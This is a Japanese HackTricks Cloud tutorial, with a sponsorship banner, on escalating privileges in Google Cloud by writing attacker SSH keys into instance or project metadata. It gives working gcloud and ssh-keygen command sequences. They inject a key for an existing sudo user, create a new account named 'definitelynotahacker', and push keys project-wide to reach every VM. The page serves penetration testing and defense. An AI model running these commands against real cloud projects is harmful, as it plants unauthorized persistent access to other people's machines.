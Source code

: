# GCP - カスタムSSHメタデータの追加

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦で**フォロー**する：[**@hacktricks_live**](https://twitter.com/hacktricks_live)。
- **ハッキングトリックを共有する**ために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合には重大なセキュリティリスク**につながる可能性があります。

### **SSHキーのカスタムメタデータへの組み込み**

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用Python Linuxゲスト環境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。これの重要なコンポーネントは[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)であり、これは**定期的に**インスタンスのメタデータエンドポイントをチェックして**認証済みSSH公開キーの更新**を行います。

したがって、攻撃者がカスタムメタデータを変更できれば、デーモンが新しい公開キーを見つけ、それが処理されて**ローカルシステムに統合**されるようにすることができます。キーは既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、キーの形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります。そして、攻撃者はホストを侵害できるようになります。

### **既存の特権ユーザーにSSHキーを追加**

1. **インスタンス上の既存のSSHキーを調べる:**
- インスタンスとそのメタデータを説明するコマンドを実行して、既存のSSHキーを特定します。出力の関連セクションは`metadata`の下にあり、特に`ssh-keys`キーの下にあります。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSHキーの形式に注意してください：ユーザー名はコロンで区切られたキーの前にあります。

2. **SSHキーのメタデータ用のテキストファイルを準備する:**
- ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、新しいキーを追加する際に既存のキーを保持するために重要です。

3. **ターゲットユーザー（この例では`alice`）の新しいSSHキーを生成する:**
- `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットのユーザー名と一致することを確認します。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- インスタンスのメタデータで見つかった形式に準じて、新しい公開キーを`meta.txt`に追加します。

4. **インスタンスのSSHキーのメタデータを更新する:**
- `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **新しいSSHキーを使用してインスタンスにアクセスする:**
- 新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。
```bash
ssh -i ./key alice@localhost
sudo id
```
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルでのSSHキー <a href="#sshing-around" id="sshing-around"></a>

クラウド環境内の複数の仮想マシン（VM）へのSSHアクセス範囲を広げるために、**プロジェクトレベルでSSHキーを適用**することが可能です。このアプローチにより、プロジェクト内の任意のインスタンスにSSHアクセスできるようになります（プロジェクト全体のSSHキーが明示的にブロックされていない場合）。以下は要約したガイドです：

1. **プロジェクトレベルでSSHキーを適用：**
- `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からSSHキーをプロジェクトのメタデータに追加します。この操作により、SSHキーがプロジェクト内のすべてのVMで認識されるようになります。ただし、VMが「プロジェクト全体のSSHキーをブロックする」オプションを有効にしていない限りです。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **プロジェクト全体のキーを使用してインスタンスにSSHする：**
- プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSHできます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
- インスタンスに直接SSHする方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。


# 参考文献
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
